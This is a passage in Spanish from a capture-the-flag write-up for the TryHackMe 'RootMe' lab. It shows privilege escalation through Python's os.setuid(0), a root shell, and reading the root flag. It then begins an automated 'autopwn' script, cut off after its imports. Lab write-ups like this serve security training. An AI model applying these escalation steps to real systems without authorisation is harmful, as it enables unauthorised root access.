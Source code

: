 ```
www-data
0
```
Tenemos una forma de cambiar nuestro uid a 0, que corresponde a root:
```
www-data@rootme:/var/www$ python
Python 2.7.17 (default, Jul 20 2020, 15:37:01) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
www-data
0
>>> os.setuid(0)
>>> os.system("whoami")
root
0
```
Observamos que somos root, ahora simplemente debemos darnos una bash:
```
www-data@rootme:/var/www$ python
Python 2.7.17 (default, Jul 20 2020, 15:37:01) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
www-data
0
>>> os.setuid(0)
>>> os.system("whoami")
root
0
>>> os.system("bash")
root@rootme:/var/www# whoami
root
root@rootme:/var/www# cat /root/root.txt
THM{******}
```
¡Listo!, somos root.


Antes de terminar, vamos a realizar un autopwn de la máquina, esto será desde la subida del archivo malicioso hasta convertise en root.

Lo vamos a realizar de la siguiente manera, en primer lugar vamos a importar las librerías necesarias:
```py
import requests
from pwn import *
from os import sys
```
En caso de no tener pwn, se debe instalar desde su página oficial.

